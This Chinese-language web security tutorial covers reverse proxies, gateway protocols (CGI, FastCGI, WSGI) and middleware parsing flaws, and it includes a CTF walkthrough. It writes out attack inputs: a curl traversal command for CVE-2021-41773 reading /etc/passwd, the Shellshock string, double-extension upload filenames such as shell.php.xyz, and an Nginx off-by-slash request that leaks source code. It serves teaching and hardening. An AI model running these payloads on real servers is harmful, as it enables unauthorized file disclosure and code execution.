

# 🏗️ Web 全栈分层架构全景：反向代理、网关协议、中间件解析漏洞与数据库交互模型

> **全局视野**：一个现代 Web 应用绝非运行在单一的黑盒进程中，而是由**反向代理、负载均衡、Web 服务器、网关接口（Gateway）、应用容器、后端脚本引擎与数据库连接池**紧密串联构成的多层分布式系统。
> 很多毁灭性的安全漏洞（如 Nginx 目录穿越、Apache 多后缀解析畸变、FastCGI 任意代码执行、Ghostcat AJP 包含）**并非源于业务代码本身的 Bug，而是源于不同分层组件之间的协议协商不一致或配置语法微瑕**！
> 洞悉 Web 请求在全栈各层间的物理流转路径，是从“脚本小子”蜕变为“架构级渗透黑客”的必经之路！

---

## 0. 基础前置认知与小白扫盲：现代 Web 系统的大饭店模型

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


### 1. 餐厅各部门分工对照
初学者常常分不清 Web 服务器（Nginx/Apache）、Web 应用中间件（Tomcat/PHP-FPM/Node.js）与数据库（MySQL/Redis）的区别。用饭店模型一秒看懂：
* **前台迎宾接待（Nginx / Apache）**：
  * 站在饭店最门口。负责疏导客流（负载均衡）、给客人端上现成菜单和酒水（静态文件图片/CSS/JS缓存），如果客人要点现炒热菜，前台负责把单子通过内部小窗递给后厨（反向代理）。
* **后厨大厨（PHP-FPM / Tomcat / Node.js）**：
  * 真正根据客人的要求开火做饭的人（执行动态业务代码，如计算购物车折扣、校验密码哈希）。
* **中央冷藏库管（MySQL / PostgreSQL / Redis）**：
  * 后厨大厨不能凭空变出食材，必须去仓库按需取用（数据库持久化存储与极速内存缓存）。

---

### 2. 攻防在不同层级的打法差异
* **攻打前台（Nginx/反代层）**：利用 HTTP 走私、反向代理路径穿越（如 `Nginx alias` 遍历漏洞），直接偷看后台或窃取其他客人的会话；
* **攻打后厨（代码层）**：利用代码漏洞（SQL 注入、反序列化、文件包含、RCE），直接把后厨大厨脑控成为黑客的帮凶（WebShell）；
* **攻打仓库（数据库层）**：利用未授权访问、弱口令或 UDF 提权，直接全盘搬空冷藏库数据。

---

## 一、现代 Web 请求的全生命周期流转模型



---

## 二、应用网关接口协议矩阵全解

Web 服务器（如 Nginx、Apache）主要负责静态文件分发与并发连接管理，它们不具备直接执行 PHP、Python 等动态代码的能力。必须通过**网关通信协议**与后端运行时交互：

| 网关协议标准              | 适用语言生态                  | 核心实现架构                                                           | 性能与安全攻击面                                   |
| :------------------ | :---------------------- | :--------------------------------------------------------------- | :----------------------------------------- |
| **CGI (RFC 3875)**  | 通用（C / Perl / Bash）     | **每来一个请求即 `fork()` 一个新子进程**，通过环境变量传参，执行完立即销毁                     | 性能极差；曾频发环境变量注入（如 Shellshock `() { :;};`）   |
| **FastCGI**         | PHP (PHP-FPM) / C++     | **常驻内存进程池**，通过二进制数据帧与中间件在 `127.0.0.1:9000` 或 UNIX Socket 通信      | 性能极高；若 9000 端口未授权暴露，可直接通过 SSRF 注入环境配置 RCE！ |
| **WSGI (PEP 3333)** | Python (Flask / Django) | 统一 Web 服务器（uWSGI/Gunicorn）与 Python 应用的可调用对象（Callable）调用规范        | 单同步模型，无法原生支持高并发长连接 WebSocket               |
| **ASGI**            | Python (FastAPI)        | 异步网关标准（Uvicorn / Daphne），基于 `asyncio` 事件循环                       | 支持异步协程、HTTP/2 与 WebSocket 双向通信             |
| **Servlet 规范**      | Java (Tomcat / Jetty)   | 单一进程内多线程池模型，以 `HttpServlet` 生命周期（`init`, `service`, `destroy`）驱动 | 共享 JVM 堆内存，易遭各种内存马与类加载器污染攻击                |

---

## 三、主流 Web 中间件安全特征与解析缺陷深度矩阵

### 1. Nginx：反向代理斜杠陷阱与配置解析缺陷

#### (1) `alias` 缺失末尾斜杠导致的“Off-by-Slash”目录穿越漏洞
很多运维人员在配置静态目录映射时，常写出如下配置：
```nginx
location /static {
    alias /var/www/html/static/;
}
```
* **漏洞致命点**：`location /static` 结尾**没有斜杠 `/`**，而 `alias` 结尾**有斜杠 `/`**！
* **底层路径拼接原理**：
  Nginx 会将匹配到的 URL 前缀 `/static` 剥离，并将剩余的路径直接拼接到 `alias` 后面！
  若攻击者请求：
  ```http
  GET /static../etc/passwd HTTP/1.1
  ```
  * Nginx 剥离 `/static`，剩余字符串为 `../etc/passwd`；
  * 拼接到 alias 路径之后：`/var/www/html/static/` + `../etc/passwd` $\rightarrow$ **直接越狱读取到 `/var/www/html/etc/passwd`！**
  * 若目标目录为 `/var/www/html/`，则直接遍历下载整台机器的敏感配置文件与源码！

#### (2) `proxy_pass` 路径传递截断差异
* **配置 A（带斜杠）**：
  ```nginx
  location /api/ {
      proxy_pass http://127.0.0.1:8080/;
  }
  ```
  访问 `/api/test` $\rightarrow$ 后端收到 `/test`（`/api/` 被规范化剔除）。
* **配置 B（不带斜杠）**：
  ```nginx
  location /api/ {
      proxy_pass http://127.0.0.1:8080;
  }
  ```
  访问 `/api/test` $\rightarrow$ 后端原样收到 `/api/test`！
  若前后端理解不一致，常引发 **403 路由白名单绕过**！

---

### 2. Apache httpd：多后缀解析机制与配置覆盖

#### (1) 多后缀畸形解析机制（从右向左逐级回退）
* **底层机制**：Apache 在判断文件类型时，**是从文件名最右侧的后缀开始逐级向前匹配 MIME 类型的**！
* 若遇到未在 Apache `mime.types` 中登记的未知后缀，Apache 会**自动跳过该后缀，继续向前读取前一个后缀**！
* **经典利用手法**：
  上传文件名为：`shell.php.xyz` 或 `shell.php.qwe`
  * Apache 发现 `.xyz` 无法识别；
  * 向前检查发现 `.php`，命中预设的 PHP 处理程序；
  * **Apache 直接将 `shell.php.xyz` 当作合法的 PHP 脚本解析执行！**
  * 轻松绕过仅拦截 `.php` 结尾的简单文件上传黑名单！

#### (2) 路径穿越与 CGI 任意命令执行（CVE-2021-41773 与 CVE-2021-42013）
* **影响版本**：Apache 2.4.49 / 2.4.50
* **成因**：路径规范化函数 `ap_normalize_uri` 在解析 URL 时对 `.` 的处理存在缺陷，使用双重 URL 编码（`.%%32%65`）或单一编码（`%2e`）绕过目录检查：
  ```bash
  curl --path-as-is http://target/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
  ```
  若服务器开启了 `mod_cgi`，通过 POST 请求向 `/cgi-bin/` 目录发送 Shell 脚本，可直接达成 Root RCE！

---

### 3. Tomcat：AJP 协议漏洞与容器特性

* **CVE-2020-1938（Ghostcat 幽灵猫漏洞）**：
  Tomcat 默认开启监听 `8009` 端口的 AJP 协议（Apache JServ Protocol），用于与前端 Apache 协同加速。
  AJP 协议设计缺失身份认证，攻击者可向 8009 端口发送构造报文，设置 `javax.servlet.include.request_uri` 等伪造属性，**在无需任何登录的前提下，任意读取 `webapps` 目录下的所有文件（包括 `WEB-INF/web.xml` 与数据库密码）！** 结合文件上传甚至演化为任意代码执行！

---

### 4. IIS：分号截断与畸形目录解析

* **分号截断**：`test.asp;.jpg`（IIS 6.0 遇到分号自动认为文件扩展名已结束，直接作为 ASP 执行）。
* **目录解析**：`/test.asp/1.jpg`（IIS 6.0 判定只要父目录包含 `.asp`，其下所有子文件无论后缀名是什么，均无条件作为 ASP 执行）。

---

## 四、CTF 实战靶场案例复现（Nginx 错误配置目录遍历读取敏感源码）

### 靶场情境：企业官方静态资源站

靶场暴露静态文件访问接口：`http://challenge.ctf:8080/files/avatar.png`。
下载靶场配置附件，审查其 `nginx.conf`：

```nginx
server {
    listen 8080;
    server_name localhost;
    root /var/www/html;

    # 静态文件目录映射
    location /files {
        alias /var/www/html/files/;
    }

    location / {
        index index.php;
    }
}
```

### 1. 漏洞挖掘与审计
* **漏洞特征定位**：`location /files` 缺少末尾斜杠，而 `alias /var/www/html/files/` 包含末尾斜杠。
* **确认存在 Off-by-Slash 目录穿越风险**！

### 2. 构造攻击发包与路径穿越验证
必须使用 `curl --path-as-is`，防止本地客户端自动将 `../` 规范化消除：

```bash
curl --path-as-is "http://challenge.ctf:8080/files../index.php"
```

#### 服务器响应回显：
```php
<?php
// /var/www/html/index.php 源码泄露！
session_start();
$flag = "flag{ng1nx_0ff_by_sl4sh_p4th_tr4v3rs4l_3xp}";
echo "Welcome to our portal!";
?>
```
通过向前退回一级目录，成功在静态映射中脱壳越狱，直接拉取到了后端的核心 PHP 源代码与 Flag！

---

## 五、架构安全加固最佳实践

1. **Nginx 规范化书写配置**：
   * 遵循“要么都有斜杠，要么都没有斜杠”的对称原则：
     ```nginx
     # ✅ 安全推荐写法
     location /files/ {
         alias /var/www/html/files/;
     }
     ```
2. **中间件禁用不必要的危险协议与模块**：
   * 在 Tomcat 中，若无前端 Apache AJP 调度需求，立即注释关闭 `8009` AJP 连接器（`Connector port="8009"`）。
   * 在 Apache 中，禁用 `mod_negotiation` 的 `MultiViews` 功能，避免不可控的文件名模糊匹配。
3. **隔离应用网关通信范围**：
   * 确保 PHP-FPM（9000 端口）与应用 RPC 接口仅监听本地 Unix Socket（`unix:/var/run/php-fpm.sock`）或回环 `127.0.0.1`，严禁暴露至 `0.0.0.0` 外网。

---

## 🔗 相关双向链接
- 上级模块：[[01-Web基础与信息收集]]
- 协议基础：[[01-HTTP与HTTPS协议深层机制与请求报文走私基础]]
- 下一章节：[[03-资产发现、指纹识别与源码泄露挖掘实战]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
